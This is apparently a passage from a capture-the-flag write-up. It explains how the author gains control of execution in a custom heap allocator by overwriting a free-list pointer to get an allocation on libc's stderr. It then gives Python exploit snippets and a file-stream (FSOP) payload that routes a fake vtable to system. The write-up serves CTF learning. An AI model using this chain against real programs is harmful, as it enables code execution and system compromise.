 The next challenge is gaining **control of execution flow**. Since we can leak and overwrite pointers, the natural idea is to abuse the free list. Specifically, by overwriting the pointer stored in index 0, we could redirect it to any address we choose. On the following `create(0x3ff)` call, the allocator would then return a chunk at that forged address.

However, this approach comes with drawbacks. A `0x3ff` allocation is quite large, and during initialization the allocator clears the entire region with `memset`. This means blindly redirecting the pointer risks **corrupting nearby data** at the target address.

At the same time, common techniques like overwriting malloc/free hooks are not applicable here, since the program never calls those `libc` routines. Our exploitation path must therefore focus on manipulating **`libc` structures already in use**, such as standard I/O file streams (`stderr`), where writes can be turned into controlled execution.

But again, the issue is when we take allocation on `*_IO_2_1_stderr` ,* it will corrupt the `stdout` struct as well because of this large allocation so what I did, that I take allocation on `top size` which gave me control on all pointers, next I allocate `0xe8+4` size pointer and free it so it creates a `free_list`  of this `0xe8+4` size chunk on `mound` , since in previous allocation i got allocation on `mound` we can simply over write that pointer with our `stderr` pointer so the next allocation of `0xe8+4` gives us control over `stderr` and since stderr wouldn’t be called until `exit(0)` so we don’t mind corrupting it.

![Screenshot](/static/writeups/litctf/4.png)

```python
stderr = libc.sym._IO_2_1_stderr_ - 0x8
log.info(f"stderr {hex(stderr+0x8)}")
ru(b"Exit")
edit(0, p64(mound))
create(2, 0x3ff)
create(4,0xe8+0x4)
free(4)
edit(2,p64(0)*15 + b"\x00"*4 +  p64(stderr-0x8)) 
create(5,0xe8+0x4)
```

![Screenshot](/static/writeups/litctf/5.png)

we can see that we got allocation on `stderr` now we will just do the `fsop` , shout to [TheFlash2k](https://www.theflash2k.me/) for this stub:

```python
# stderr-FSOP-stub from @TheFlash2k
vtable = libc.sym._IO_wfile_jumps
io_file = libc.sym._IO_2_1_stderr_
payload = flat(
    0x687320,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, libc.sym.system, 0x00, 0x00, 0x00, 0x00,
    0x0, 0x0, 0x00, libc.bss()+0x100, 0x00,
    io_file+0x20, io_file-0x20,
    0x0, 0x0, 0x0, (io_file-0xe0)+0xc0, 0x0, 0x0,
    vtable)
```

